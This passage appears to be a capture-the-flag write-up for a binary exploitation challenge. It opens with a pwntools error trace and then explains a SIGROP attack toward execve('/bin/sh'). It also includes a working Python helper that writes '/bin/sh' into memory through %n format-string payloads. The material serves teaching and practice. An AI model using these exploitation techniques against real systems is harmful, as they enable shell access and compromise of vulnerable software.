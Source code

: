 ```
  File "/home/knittingirl/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/home/knittingirl/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/home/knittingirl/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/home/knittingirl/.local/lib/python3.8/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 0.cloud.chals.io port 12655
```
## Writing the Exploit:

### What is SIGROP?

Two of the leaked gadgets give us: #1: Control of the rax register, #2. The ability to do a syscall. Conveniently, this is also everything that we need to do a SIGROP attack. 

SIGROP works by setting rax to 0xf and triggering a syscall; in the x86-64 architecture, this triggers a sigreturn syscall, which will fill every register with content from the stack in a predictable fashion. This means that by setting up a ROPchain to trigger the sigreturn, and adding a large amount of data to the stack after the syscall to be loaded into the stack, you can essentially gain control over any and all registers. This includes the instruction pointer of rip, which can be filled with a function pointer, including a syscall, and which will be executed after the sigreturn when all of the other registers are filled.

The obvious end goal with a SIGROP is to call execve('/bin/sh', 0, 0). The appropach gives us all the needed control over the function parameters and the ability to call the execve syscall; the main hurdle in this case is that we do not have a location for '/bin/sh' in the binary, and we would need to pass an address that stores the string to rdi for the syscall to pop a shell.

### Format String to Write '/bin/sh'

There are two main aspects of this binary that are not strictly necessary for SIGROP, but that can fix the lack of '/bin/sh'. Firstly, we have the address of a writable section of memory, to which '/bin/sh' could be written. Secondly, we have a format string vulnerability; while format strings are often used to leak data from a binary, the %n format string can also be used to write to sections of memory with appropriate permission. Specifically, '%n' prints the number of characters already printed to the address specified. This means that I can convert each letter in the '/bin/sh' string to its corresponding number from ascii, use %+number+x to print number characters, and follow it by an appropriate %n format string that is lined up with the writable area's address. To this end, I created a custom helper function in pwntools to write the whole string to the writable area one byte at a time, then I read from the affected address using the %s format string to make sure that it worked. Here is the relevant bit of code:
```
def write_to_writable(string, writable_area):
    for i in range(len(string)):
        payload = b'%' + str(ord(string[i])).encode('ascii') + b'x%8$n' 
        payload += b'c' * (16 - len(payload))  + p64(writable_area + i)
        target.sendline(payload)
        print(target.recvuntil(b'You say'))

print(target.recvuntil(b'<<< Address of pop rax, ret    : 0x4013c5'))

write_to_writable('/bin/sh', writable_area)

#Just me checking that the write worked.
payload = b'%8$s' + b'\x00' * 12 + p64(writable_area)
target.sendline(payload)
```